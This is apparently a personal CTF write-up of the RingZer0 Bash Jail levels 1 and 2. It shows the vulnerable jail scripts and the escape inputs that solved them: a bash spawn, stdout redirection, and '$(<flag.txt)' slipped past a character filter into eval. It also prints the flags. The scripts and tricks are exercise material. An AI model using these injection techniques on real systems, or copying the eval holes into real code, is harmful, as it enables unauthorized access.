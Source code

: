 # Jail Escaping

### Bash Jail 1

First of this type of challenge. SSH into a machine with given credentials, and you are entered into a limited shell. In this case, you are provided a basic example of what is going on, so you have some idea of how to get out. You see something like the following:

```bash
RingZer0 Team Online CTF

BASH Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge bash code:
-----------------------------

while :
do
        echo "Your input:"
        read input
        output=`$input`
done 

-----------------------------
Your input:
```

There are better ways to solve this, but all I did was the following:

```bash
// provide /bin/bash as my "input" :)
/bin/bash
bash: FLAG-U96l4k6m72a051GgE5EN0rA85499172K: command not found
level1@lxc17-bash-jail:~$ 
```

And you have the flag which you can then submit and collect your points.


!!! note
    I knew I was missing something here, so I read a writeup or two after I submitted mine. The key was the supression of stdout. One example I saw had you simply submitting `bash`, and then using `ls 1>&2` followed by `cat flag.txt 1>&2` to get the goods. This was the "niceness" that I was hoping for.


### Bash Jail 2

This one was a little harder, but not too bad. This is what the "jail" looked like:

```bash
function check_space {
    if [[ $1 == *[bdks';''&'' ']* ]]
    then 
            return 0
    fi

    return 1
}

while :
do
    echo "Your input:"
    read input
    if check_space "$input" 
    then
            echo -e '\033[0;31mRestricted characters has been used\033[0m'
    else
            output="echo Your command is: $input"
            eval $output
    fi
done 
```

I did some testing/experimentation, and finally settled on the following input:

```bash
$(<flag.txt)
Your command is: FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P
```

Which seems both simple and elegant at the same time. With this, you can submit the flag and claim your points.
